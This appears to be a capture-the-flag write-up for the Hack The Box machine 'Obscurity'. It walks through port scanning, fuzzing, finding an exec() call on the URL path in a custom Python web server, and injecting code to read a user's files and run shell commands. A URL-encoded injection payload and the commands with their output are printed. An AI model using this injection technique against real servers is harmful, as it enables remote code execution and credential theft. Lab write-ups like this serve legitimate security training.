 # [Obscurity](https://www.hackthebox.eu/home/machines/profile/219)
## IP : 10.10.10.168

## **Step 0** : Ports Scan

![Port Scan Result](hints/port_scan.png)

* Website : http://10.10.10.168:8080/

## __Step 1__ : Hints from the [home page](http://10.10.10.168:8080/).

> Message to server devs: the current source code for the web server is in __SuperSecureServer.py__ in the secret development directory`

After some tests the server is fuzzable from the root. Any file or folder can be returned by the browser.

![FFUF Report](hints/ffuf_report.png)

* Server code : http://10.10.10.168:8080/develop/SuperSecureServer.py

## __Step 2__ : Understanding the custom made server

From *hints/SuperSecureServer.py* :
```python
def serveDoc(self, path, docRoot):
    ...
    path = urllib.parse.unquote(path)
    ...
    exec(info.format(path)) # This is how you do string formatting, right?
    ...
    return {"body": data, "mime": mime, "status": status}
```
The `path` parameter coming from the URL. So it's possible to inject python code from url. We need to encode with `urllib.quote()` the code to send it to the http server:

> http://obscurity/{urlib_quoted_python_code}

Also, the code shows that through this function, only the **mime** var can be used to get info back.

## **Step 3** : Injection & Enumeration

With code used in *lab/inject.py* :

![injection_result](hints/inject_report.png)

We see that we're **user=www-data(uid=33)**

* Time to see what's Robert has for us :

![Clues,clues,clues](hints/inject_robert.png)

We can't read **user.txt** yet.
But it seems we can have hints on the next step with the other files.

```
$ python3 lab/inject.py "open('/home/robert/passwordreminder.txt','r').read()"
Payload : %27%3BMIMES%5B%27html%27%5D%3Dopen%28%27/home/robert/passwordreminder.txt%27%2C%27r%27%29.read%28%29%3Ba%3D%27
Â´ÃÃÃÃÃ ÃÃÃÃ©Â¯Â·Â¿k
````
* Weird encoding, got password from Chrome : 

![thank_you_chrome](hints/chrome_password.png)

To summarize : 
* User : **robert**
* Password : **´ÑÈÌÉàÙÁÑé¯·¿k**

Let's try that : 
```
$ ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Permission denied, please try again.
```

### Time to enumerate more...

```
$ python3 lab/inject.py "open('/home/robert/check.txt','r').read()" 

Encrypting this file with your key should result in out.txt
make sure your key is correct! 

$ python3 lab/inject.py "open('/home/robert/out.txt','r').read()"

 ¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v

$ python3 lab/inject.py "os.popen('ls -l /home/robert/BetterSSH').readlines()"

['total 4'
 '-rwxr-xr-x 1 root root 1805 Oct  5 13:09 BetterSSH.py']
```